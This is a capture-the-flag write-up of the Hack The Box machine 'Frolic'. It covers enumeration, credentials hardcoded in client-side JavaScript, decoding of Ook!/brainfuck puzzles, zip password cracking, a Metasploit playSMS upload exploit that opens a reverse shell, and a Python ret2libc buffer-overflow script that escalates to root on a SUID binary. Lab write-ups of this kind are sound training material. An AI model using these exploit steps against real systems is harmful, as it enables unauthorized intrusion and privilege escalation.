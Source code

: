 # FROLIC
frolic was a great box that involved a decent amount of binary exploitation(im not the best at this so if you want a more in
depth explanantion i suggest looking at other writeups, im just doing this so i have a record to look back at.)

>Skills involved in this box:
- enumeration 
- A bit of crypto 
- metasploit
- binary exploitation

# USER

After running an nmap scan we can see that there is quite a few ports open but the main ones that we need are 9999.
There is jsut a welcome message for nginx on the main page so we use dirbuster to search for directories, We use a few 
searches so i will just list all the interesting things that i found:
```
/admin
/backup
/dev
/test
/dev/backup/playsms
```
Taking a look at `/admin` We can see that it is a login page. We look into the source code of the site and find `login.js`:
```javascript
var attempt = 3; // Variable to count number of attempts.
// Below function Executes on click of login button.
function validate(){
var username = document.getElementById("username").value;
var password = document.getElementById("password").value;
if ( username == "admin" && password == "superduperlooperpassword_lol"){
alert ("Login successfully");
window.location = "success.html"; // Redirecting to other page.
return false;
}
else{
attempt --;// Decrementing by one.
alert("You have left "+attempt+" attempt;");
// Disabling fields after 3 attempts.
if( attempt == 0){
document.getElementById("username").disabled = true;
document.getElementById("password").disabled = true;
document.getElementById("submit").disabled = true;
return false;
}
}
}
```
One line sticks out the most and that is the `if ( username == "admin" && password == "superduperlooperpassword_lol"){
`
So now we have some creds, `admin:superduperlooperpassword_lol` we login to the login page and get met buy another site.
```
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... ..... ..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.? !!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! ..... ..!.! !!!!! !.?.
```
This is a ciphertext for an langauge called Ook! we find an online decoder for it(i used dcode.fr)
We get teh output:
```
Nothing here check /asdiSIAJJ0QWE9JAS
```
So we check that directory and we find a long base64 string:
```
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwABBAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbsK1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmveEMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTjlurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkCAAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUGAAAAAAEAAQBPAAAAAwEAAAAA
```
Decoding this gives a weird output to we decide to decode it into a zip file.
```base64 -d base64.txt > file.zip```
Trying to unzip it shows us that it is password protected so we find a tool that can get us the password from it.
We find a tool called fcrackzip that will do the trick.
```
fcrackzip file.zip -u -D -p /usr/share/wordlists/rockyou.txt
```
After unzipping that we get a file called index.php that contains a long hex string. We decode this from hex and get a base64 string. After decoding that we get a string that appears to be in the language "brainfuck":
```
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..<
```
Of course we use an online decoder to translate this into english and it ourputs `idkwhatispass` We can only assume that this is the password for the playsms page.
We login on playsms with `admin:idkwhatispass` 
We spend a while searching for exploits to gain us a shell, we come accross a metasploit module using searchsploit that will do the trick. Its called `exploit/multi/http/playsms_uploadcsv_exec`
We set the appropriate options:
```
set password idkwhatispass
set rport 9999
set rhosts 10.10.10.111
set targeturi /playsms
set lhost {your tun0 ip}
exploit
```
We now get a shell as www-data and manage to read the user flag.

# ROOT

We find an SUID binary in /home/ayush/.binary, its called rop
we run it to see what it does, basically it just takes our input and outputs it. 
We do:
```
./rop AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
And we see that it returns a seg fault so we have a buffer overflow vulnerability.
We are going to do a ret2libc attack.
GDB is not installed on the box so we download a static version and then upload it via a metpreter session.
Theses are the exploitation steps:
```
on our box: 
gdb-peda$ pattern_create -l 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb rop
break *main
run AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
c
we get an address below the line that says segfault.
gdb-peda$ pattern_offset -q address_we_got
we will get an offset of 52
```
This shows us that the buffer overflows at 52 chars
Now we need to get all the addresses so we will start with finding the /bin/sh in libc
```
www-data@frolic:/home/ayush/.binary$ ldd rop 
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)    
        /lib/ld-linux.so.2 (0xb7fdb000)
        
www-data@frolic:/home/ayush/.binary$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 15ba0b /bin/sh
Also in gdb we do "p system" and "p exit" to find the addresses for system and exit 
 ```
So now we have all our addresses:
```
libc = 0xb7e19000
offset = 0x0015ba0b
/bin/sh = libc + offset = 0xb7f74a0b
system = 0xb7e53da0
exit = 0xb7e479d0
```
Now we have everything we need lets construct our script
```python
#!/usr/bin/python

import struct

buf = "A" * 52
system = struct.pack("I" ,0xb7e53da0)
exit = struct.pack("I" ,0xb7e479d0)
shell = struct.pack("I" ,0xb7f74a0b)
print buf + system + exit + shell
```
Then we simply run This command to exploit the binary and get a root shell and read the root flag:
```
./rop `python /tmp/exploit.py`
```
Thanks for reading and if you enjoyed make sure to check out my profile at 
https://www.hackthebox.eu/home/users/profile/246314


